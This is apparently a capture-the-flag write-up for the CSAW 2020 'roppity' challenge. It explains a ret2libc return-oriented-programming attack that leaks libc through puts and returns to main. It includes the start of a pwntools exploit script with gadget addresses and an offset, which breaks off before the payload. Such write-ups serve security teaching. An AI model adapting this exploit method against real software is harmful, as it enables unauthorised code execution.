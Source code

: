 ```

[*] '/ctfs/csaw20/roppity/rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
This means that any addresses built into the main binary are static, including the PLT and GOT. Since the program uses the `puts()` function (rather conspicuously), we should be able to call it from the PLT to print out libc addresses from the GOT! From there, we can calculate the libc base address, and from that, the address of `system()`. However, we run into one last roadblock: the program only takes input once. How will we use the leaked libc address? Well, we can just add the address of `main()` onto the end of our ropchain, then input a second payload once it calls `gets()` for a second time. The final exploit script (generated with help from `pwntools`'s `pwn template`) looks like this:

```python
#!/usr/bin/env python3
# This exploit template was generated via:
# $ pwn template ./rop
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./rop')
host = 'pwn.chal.csaw.io'
port = 5016

def local(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        p = process([exe.path] + argv, *a, **kw)
        # print the process's pid to attach a debugger
        print(p.pid)
        input()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(host, port)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

pop_rdi = 0x0000000000400683
ret = 0x000000000040048e
offset = 40
# load the provided libc
libc = ELF('./libc-2.27.so')

# start the program/connect
io = start()

# recieve "Hello"
```